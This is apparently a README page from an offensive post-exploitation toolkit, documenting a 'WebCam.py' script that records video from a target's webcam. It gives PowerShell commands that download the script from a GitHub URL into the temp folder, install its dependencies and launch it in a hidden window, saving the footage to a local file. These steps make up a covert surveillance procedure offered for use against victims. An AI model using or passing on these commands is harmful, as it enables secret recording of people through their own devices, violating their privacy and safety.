 ## WebCam.py - Under Develop (Not stable)

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video using target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[Article](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "$Env:TMP\WebCam.py"

#Stop capture
stop-process -name python3.9
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
